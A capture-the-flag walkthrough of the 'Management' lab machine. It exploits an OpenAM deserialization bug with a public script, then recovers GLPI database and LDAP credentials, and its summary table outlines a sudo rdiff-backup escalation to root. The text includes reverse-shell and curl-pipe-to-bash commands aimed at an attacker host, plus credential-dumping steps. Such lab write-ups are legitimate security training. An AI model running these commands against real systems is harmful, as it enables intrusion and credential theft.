# Management

```
Host: management.htb
OS: Ubuntu 24.04.5 LTS
Difficulty: Easy
Key Concepts: Pre-Auth Java Deserialization RCE, Encrypted Credential Recovery, Password Reuse, Sudo Rule Bypass via Remote-Schema Injection.
```

## Attack Chain Summary

| Step | User / Access | Technique Used | Result |
|----|-----------------------------------|--------------------------------|-----------------------------------------------------------------------------|
| 1 | `(Local / Recon)` | **nmap Port Scan & Enumeration** | Identified open ports **22 (SSH)**, **80/443 (HTTP/S)**, **4444 (LDAPS)**, and **50389 (LDAP, anonymous bind)**. TLS certificate leaked virtual hosts `management.htb` and `sso.management.htb`. |
| 2 | `(Unauthenticated Web)` | **Version Disclosure** | Identified **OpenAM 16.0.5** via page source (`urlArgs: "v=16.0.5"`) on `sso.management.htb`. |
| 3 | `(Unauthenticated / Pre-Auth RCE)` | **Java Deserialization (CVE-2026-33439)** | Exploited unrestricted deserialization of the `jato.clientSession` parameter using a `PriorityQueue -> Column$ColumnComparator -> TemplatesImpl -> EvilTranslet` gadget chain, confirmed via out-of-band callback, then escalated to a reverse shell as **`openam`**. |
| 4 | `(openam / Local)` | **Config File Disclosure** | Found a second application, **GLPI**, at `/opt/glpi`; its `config_db.php` leaked working MySQL credentials (`glpi:8rhu0L6Pw4Y7`). |
| 5 | `(openam / DB Access)` | **Encrypted Credential Recovery** | Queried `glpi_authldaps.rootdn_passwd` (encrypted, not hashed) and decrypted it to plaintext (`WpczC40GhTbk`) using GLPI's own `GLPIKey` class and its on-disk key file `glpicrypt.key`. |
| 6 | `(owen / SSH-equivalent)` | **Password Reuse** | Reused the decrypted LDAP bind password against the sole local account, **`owen`**, via `su -`, confirming credential reuse and retrieving `user.txt`. |
| 7 | `(owen / Priv-Esc)` | **Sudo Rule Abuse (rdiff-backup `--remote-schema`)** | Abused a `NOPASSWD` sudo rule for `rdiff-backup --server --restrict-path /opt/backup` by supplying a custom `--remote-schema` that substituted `/root` for the restricted path, bypassing the intended sandbox. |
| 8 | `(root / Shell)` | **SSH Key Theft** | Mirrored `/root` (including `root.txt` and `.ssh/id_ed25519`) to `/tmp/rootbak`, then used the stolen private key to `ssh -i` directly as **root**, obtaining a full interactive root shell. |





## Offensive Operations

### Reconnaissance

#### Nmap Scan

Started with a version/script scan against all common ports:

```bash
nmap -sV -sC 10.129.xx.xx
```

**Results:**

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-14 17:50 +0000
Nmap scan report for 10.129.xx.xx
Host is up (0.75s latency).
Not shown: 995 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.19 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 [REDACTED] (ECDSA)
|_  256 [REDACTED] (ED25519)
80/tcp    open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://10.129.xx.xx/
443/tcp   open  ssl/http nginx 1.24.0 (Ubuntu)
| tls-alpn:
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=management.htb/organizationName=Management Managed Services Ltd
| Subject Alternative Name: DNS:management.htb, DNS:*.management.htb
| Not valid before: 2026-06-02T01:21:44
|_Not valid after:  2126-05-09T01:21:44
|_http-title: Did not follow redirect to https://management.htb/
4444/tcp  open  ssl/ldap
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings:
|   LDAPSearchReq:
|     0<0:
|     objectClass1+
|     ds-root-dse
|_    ds-cfg-root-dse-backend0
| ssl-cert: Subject: commonName=sso.management.htb/organizationName=Administration Connector RSA Self-Signed Certificate
| Not valid before: 2026-06-02T01:23:59
|_Not valid after:  2046-05-28T01:23:59
50389/tcp open  ldap     (Anonymous bind OK)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4444-TCP:V=7.99%T=SSL%I=7%D=9/14%Time=6AA8343F%P=x86_64-pc-linux-gn
SF:u%r(LDAPSearchReq,55,"0E\x02\x01\x07d@\x04\x000<0:\x04\x0bobjectClass1\
SF:+\x04\x03top\x04\x0bds-root-dse\x04\x17ds-cfg-root-dse-backend0\x0c\x02
SF:\x01\x07e\x07\n\x01\0\x04\0\x04\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.95 seconds
```

**What this tells us:**
- **Port 22** - standard SSH.
- **Port 80/443** - nginx web server, and the certificate reveals two virtual hosts we don't know about yet: `management.htb` and `sso.management.htb`. Nginx is redirecting HTTP requests straight to HTTPS.
- **Port 4444** - an LDAP service wrapped in SSL, tied to an "Administration Connector" cert. LDAP + SSO usually points to an identity/access management product.
- **Port 50389** - a second LDAP service that allows **anonymous bind**, meaning you can query it without credentials. This is a big flag for enumeration later, since misconfigured anonymous LDAP binds often leak directory information (users, groups, etc.).

Because the certificate revealed hostnames that aren't resolvable by default, they need to be added manually so the browser/tools send the correct `Host` header (needed for name-based virtual hosting).

#### Adding Hosts Entries

```bash
cat /etc/hosts
```

```
10.129.xx.xx   management.htb sso.management.htb
```

This maps both discovered hostnames to the target so we can browse them by name instead of IP.



### Web Enumeration

#### Identifying the SSO Application

Navigating to `https://sso.management.htb` in the browser, the page title says **"OpenAM"**, and viewing the page source confirms it:

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>OpenAM</title>
    </head>
    <body style="display:none">
        <div id="messages" class="clearfix"></div>
        <div id="wrapper">Loading...</div>
        <div id="popup">
            <div id="popup-content" class="radious"></div>
        </div>
        <footer id="footer" class="footer text-muted"></footer>
        <script src="libs/base64-1.0.0-min.js"></script>
        <script type="text/javascript">
            var require = {
                urlArgs : "v=16.0.5",
                deps : ['main']
            };
        </script>
        <script src="libs/requirejs-2.3.7-min.js"></script>
    </body>
</html>
```






**Key detail:** the `urlArgs : "v=16.0.5"` line discloses the exact OpenAM version - **16.0.5**. OpenAM is an open-source access management / SSO platform (this is what OpenIdentityPlatform/ForgeRock's product is called). Having the exact version number is what lets us go look for a matching public exploit instead of guessing.

#### Vulnerability Identification

A version-specific search led to **CVE-2026-33439**, a **pre-authentication Remote Code Execution** vulnerability affecting OpenIdentityPlatform OpenAM versions **prior to 16.0.6** (our target is running 16.0.5, so it's in scope).

**In plain terms, how the bug works:**
- OpenAM has a component called `ClientSession`, which is responsible for restoring session state from an HTTP parameter named **`jato.clientSession`**.
- To do this, it calls `deserializeAttributes()`, which internally goes through `Encoder.deserialize()` and finally `ApplicationObjectInputStream.readObject()`.
- The problem is that this deserialization happens with **no class whitelist** - meaning the server will attempt to reconstruct *any* Java object an attacker sends it, not just the session objects it expects.
- This is a classic **Java insecure deserialization** vulnerability. Because Java's object deserialization can trigger method calls as objects get reconstructed, an attacker can chain together a sequence of "gadget" classes already present on the server (a **gadget chain**) that ends in arbitrary command execution - and critically, this requires **no login/authentication**, since the vulnerable endpoint is reachable pre-auth.

This class of bug is well known in the Java world (similar in spirit to the infamous Apache Commons Collections deserialization exploits) - the fix is normally to validate/whitelist which classes are allowed to be deserialized, which OpenAM 16.0.6 added.




### Exploitation - Gaining a Foothold

#### The Exploit Tool

A public exploit script (`Exploit_CVE_2026_33439.py`) by **TheMalwareGuardian** automates building the malicious serialized payload and delivering it.

> **Exploit repo:** https://github.com/TheMalwareGuardian/CVE-2026-33439/

It builds a **gadget chain**:

```
PriorityQueue -> Column$ColumnComparator -> TemplatesImpl -> EvilTranslet
```

**What this chain is doing, in plain words:**
- `PriorityQueue` is used purely as a trigger - when Java deserializes a `PriorityQueue`, it automatically calls a `compare()` method to reorder its elements, which is what kicks the chain off.
- `Column$ColumnComparator` is the comparator that gets invoked, and it's been tricked into eventually calling a method on...
- `TemplatesImpl` - a legitimate Java class (from Xalan, used for XSLT transforms) that can be abused to **load and instantiate an arbitrary Java class from bytecode embedded in the object itself**.
- `EvilTranslet` is that arbitrary class - a small custom Java class the exploit compiles on the fly, whose constructor/static-initializer just runs whatever OS command we asked for.

So the net effect: send one crafted, base64-encoded blob to a vulnerable endpoint, and the server ends up compiling and running our chosen shell command.

#### Verifying the Vulnerable Endpoints

The script first probes known **JATO ViewBean** endpoints (JATO is the old Sun Java web framework OpenAM's UI is built on) to confirm they respond:

```bash
python3 Exploit_CVE_2026_33439.py --url https://sso.management.htb/openam --command "curl http://10.10.xx.xx" --jars Jars/
```

```
[*] Probing JATO ViewBean endpoints...
  [OK] https://sso.management.htb/openam/ui/PWResetUserValidation  ->  HTTP 200
  [OK] https://sso.management.htb/openam/ui/PWResetQuestion  ->  HTTP 200
  [OK] https://sso.management.htb/openam/ui/Login  ->  HTTP 200
[*] Target endpoints         | ['/ui/PWResetUserValidation', '/ui/PWResetQuestion', '/ui/Login']
[*] Compiling EvilTranslet   | cmd='curl http://10.10.xx.xx'
[+] EvilTranslet compiled    | /tmp/tmp_6sd4tvl/EvilTranslet.class
[*] Compiling PayloadBuilder ...
[*] Building gadget chain    | PriorityQueue -> Column$ColumnComparator -> TemplatesImpl -> EvilTranslet
[+] Payload ready            | 4316 chars (URL-safe base64)
[*] Payload preview          | rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1...
[*] Delivering payload       | method=GET | /ui/PWResetUserValidation
[*] Server response          | HTTP 200 | 3351 bytes
[*] Delivering payload       | method=GET | /ui/PWResetQuestion
[*] Server response          | HTTP 200 | 3351 bytes
[*] Delivering payload       | method=GET | /ui/Login
[*] Server response          | HTTP 200 | 1468 bytes

[*] Done. Verify execution on the target (out-of-band).
    For HTTP callback:  nc -lvnp 9999  ->  --command 'curl http://attacker:9999/pwned'
    For reverse shell:  nc -lvnp 4444  ->  --command 'bash -i >& /dev/tcp/attacker/4444 0>&1'
```

#### Proof of Command Execution (Out-of-Band Check)

Before going straight for a shell, the exploit was first tested with a **harmless callback command** (`curl http://10.10.xx.xx`) to *prove* code execution was actually happening on the server, rather than trusting the script's "HTTP 200" output blindly (a 200 response just means the endpoint accepted the request - it doesn't confirm the payload actually ran).

A simple Python web server was started locally to catch that callback:

```bash
python3 -m http.server 80
```

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.xx.xx - - [14/Sep/2026 18:16:38] "GET / HTTP/1.1" 200 -
10.129.xx.xx - - [14/Sep/2026 18:16:39] "GET / HTTP/1.1" 200 -
```

**This is the proof:** two separate inbound `GET /` requests hitting our listener, originating from the target's IP. That confirms the deserialization RCE is real and working - the target server genuinely reached out to us on its own, which it would only do if our injected `curl` command executed successfully.

#### Getting a Reverse Shell

With code execution confirmed, a small reverse shell script was hosted and then pulled + executed on the target.

**`reverse.sh`:**
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1
```

Re-running the exploit, this time telling the target to download and pipe that script into `bash`:

```bash
python3 Exploit_CVE_2026_33439.py --url https://sso.management.htb/openam --command "curl http://10.10.xx.xx/reverse.sh|bash" --jars Jars/
```

```
[*] Compiling EvilTranslet   | cmd='curl http://10.10.xx.xx/reverse.sh|bash'
...
[*] Delivering payload       | method=GET | /ui/PWResetUserValidation
[*] Server response          | HTTP 200 | 3351 bytes
[*] Delivering payload       | method=GET | /ui/PWResetQuestion
[*] Server response          | HTTP 200 | 3351 bytes
[*] Delivering payload       | method=GET | /ui/Login
[*] Server response          | HTTP 200 | 1468 bytes
```

A listener (`penelope`, a shell-handling tool that auto-upgrades raw shells to a full PTY) was running to catch the connection:

```bash
penelope -p 4444
```



```
[+] Listening for reverse shells on 0.0.0.0:4444 ->  127.0.0.1 • 192.168.1.82 • 10.0.3.1 • 172.17.0.1 • 10.10.xx.xx
[+] Got reverse shell from management~10.129.xx.xx-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Got reverse shell from management~10.129.xx.xx-Linux-x86_64 😍 Assigned SessionID <2>
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12
openam@management:/$
```

We now have a shell as the **`openam`** service user - the low-privileged account the OpenAM/Java process runs under.


### Privilege Escalation Path: `openam` -> `owen`

#### Finding a Second Application

Poking around the filesystem revealed a second web application installed on the box - **GLPI** (an open-source IT asset/service-management tool), living at `/opt/glpi`. Its database config file was readable:

```bash
openam@management:/opt/glpi/config$ cat config_db.php
```




```php
<?php
class DB extends DBmysql {
   public $dbhost = '127.0.0.1';
   public $dbuser = 'glpi';
   public $dbpassword = '[REDACTED]';
   public $dbdefault = 'glpidb';
   public $use_utf8mb4 = true;
   public $allow_datetime = false;
   public $allow_signed_keys = false;
}
```




This gives us a working MySQL/MariaDB credential (`glpi` user) for the local database.

#### Confirming What's Listening Locally

Before connecting, it's worth confirming the database is actually reachable and seeing what else is running on the box:

```bash
openam@management:/opt/glpi/config$ ss -tulnp
```

```
Netid       State        Recv-Q       Send-Q                  Local Address:Port              Peer Address:Port      Process
udp         UNCONN       0            0                          127.0.0.54:53                     0.0.0.0:*
udp         UNCONN       0            0                       127.0.0.53%lo:53                     0.0.0.0:*
udp         UNCONN       0            0                             0.0.0.0:68                     0.0.0.0:*
tcp         LISTEN       0            4096                    127.0.0.53%lo:53                     0.0.0.0:*
tcp         LISTEN       0            80                          127.0.0.1:3306                   0.0.0.0:*
tcp         LISTEN       0            511                           0.0.0.0:443                    0.0.0.0:*
tcp         LISTEN       0            4096                          0.0.0.0:22                     0.0.0.0:*
tcp         LISTEN       0            511                           0.0.0.0:80                     0.0.0.0:*
tcp         LISTEN       0            4096                       127.0.0.54:53                     0.0.0.0:*
tcp         LISTEN       0            50                                  *:43905                        *:*          users:(("java",pid=1691,fd=480))
tcp         LISTEN       0            100                [::ffff:127.0.0.1]:8080                         *:*          users:(("java",pid=1691,fd=44))
tcp         LISTEN       0            128                                 *:4444                         *:*          users:(("java",pid=1691,fd=491))
tcp         LISTEN       0            1                  [::ffff:127.0.0.1]:8005                         *:*          users:(("java",pid=1691,fd=49))
tcp         LISTEN       0            4096                             [::]:22                        [::]:*
tcp         LISTEN       0            50                                  *:1689                         *:*          users:(("java",pid=1691,fd=478))
tcp         LISTEN       0            128                                 *:50389                        *:*          users:(("java",pid=1691,fd=492))
```


`127.0.0.1:3306` confirms MariaDB is listening locally - matching the `dbhost` value from `config_db.php`.

#### Logging Into MySQL and Dumping GLPI Users

```bash
openam@management:/opt/glpi/config$ mysql -u glpi -p
```

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 31
Server version: 10.11.14-MariaDB-0ubuntu0.24.04.1 Ubuntu 24.04

MariaDB [(none)]> show databases;
+--+
| Database           |
+--+
| glpidb             |
| information_schema |
+--+
2 rows in set (0.002 sec)

MariaDB [(none)]> use glpidb;
Database changed
```

Listing tables (442 total - GLPI has a very large schema) confirmed a standard GLPI install, including the important `glpi_users` and `glpi_authldaps` tables:

```bash
MariaDB [glpidb]> show tables;
```

```
+-+
| Tables_in_glpidb                                         |
+-+
| glpi_agents                                               |
| glpi_agenttypes                                           |
| glpi_alerts                                                |
| ...                                                        |
| glpi_authldaps                                             |
| ...                                                        |
| glpi_users                                                 |
| ...                                                        |
+-+
442 rows in set (0.004 sec)
```

Dumping local user password hashes:

```sql
select name,password from glpi_users;
```

```
+-+--+
| name        | password                                                     |
+-+--+
| glpi        | [REDACTED HASH]                                              |
| post-only   | [REDACTED HASH]                                              |
| tech        | [REDACTED HASH]                                              |
| normal      | [REDACTED HASH]                                              |
| glpi-system |                                                               |
+-+--+
5 rows in set (0.000 sec)
```




**These are bcrypt hashes (`$2y$10$...`)** - bcrypt is intentionally slow/expensive to crack, and none of these cracked with a standard wordlist attempt. Rather than burning time brute-forcing bcrypt, the next logical move was to check the **other** credential-bearing table.

#### The LDAP Bind Password - A Better Lead

```sql
select id,name,rootdn_passwd from glpi_authldaps;
```

```
+-+-+--+
| id | name                 | rootdn_passwd                                                             |
+-+-+--+
|  1 | Management Directory | [REDACTED CIPHERTEXT]                                                     |
+-+-+--+
1 row in set (0.000 sec)
```



This value is **not a hash** - GLPI doesn't hash its stored LDAP bind password, because it needs the *plaintext* to actually authenticate to the LDAP server on GLPI's behalf. Instead, GLPI **encrypts** it reversibly using a key stored on disk. That means if we can get our hands on GLPI's encryption key, we can decrypt this value straight back to plaintext.

#### Locating and Using GLPI's Encryption Key

```bash
openam@management:/opt/glpi/config$ ls
```



```
config_db.php  glpicrypt.key  oauth.pem  oauth.pub
```

`glpicrypt.key` is exactly what we need - GLPI's `GLPIKey` class uses this file as the secret key for encrypting/decrypting sensitive config fields like LDAP bind passwords. Using GLPI's own PHP code (already present on disk, so we don't need to reimplement its crypto) to decrypt the value in place:

```bash
openam@management:/opt/glpi/config$ php -r '
define("GLPI_CONFIG_DIR", "/opt/glpi/config");
require "../vendor/autoload.php";
require "../src/GLPIKey.php";

$key = new GLPIKey();
echo $key->decrypt("[REDACTED CIPHERTEXT]") . PHP_EOL;
'
```

